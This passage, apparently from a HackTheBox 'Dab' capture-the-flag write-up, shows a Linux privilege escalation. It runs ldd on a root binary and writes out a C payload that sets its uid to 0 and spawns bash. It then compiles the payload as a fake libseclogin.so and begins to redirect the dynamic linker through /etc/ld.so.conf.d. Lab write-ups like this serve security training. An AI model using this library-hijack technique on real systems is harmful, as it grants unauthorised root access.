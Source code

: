 ![](/images/hackthebox/dab/50.png)
<br> And we get: 
```
password is correct 
seclogin() called
TODO: Placeholder for now, function not implemented yet
```
<br> so what can we do now ?
<br>
<hr>
## Hijacking dynamically linked shared object library and getting root
<br> If we run ldd (List Dynamic Dependencies) against that binary. we see libseclogin.so
![](/images/hackthebox/dab/51.png)
<br> and we saw earlier when we executed the binary : `seclogin() called`
<br> So theoretically , if we can replace `libseclogin.so` with another one and link to it , the binary will execute it as root. let's test that.
<br> We will create a directory in `/home/genevieve/` and call it `.exploit`
<br> Then we will write a small c program that spawns bash.
```
#include <stdio.h>

seclogin() {
setgid(0);
setuid(0);
system("/bin/bash");
}
```
![](/images/hackthebox/dab/52.png)
<br> After that we will compile it 
`gcc -fPIC -shared -o libseclogin.so exploit.c`
<br> Now our fake `libseclogin.so` is ready , we need to make the system point to our path `/home/genevieve/.exploit/libseclogin.so` instead of `/usr/lib/libseclogin.so`
<br> We will `cd` to `/etc/ld.so.conf.d` , and create a `.conf` file and put our path in it.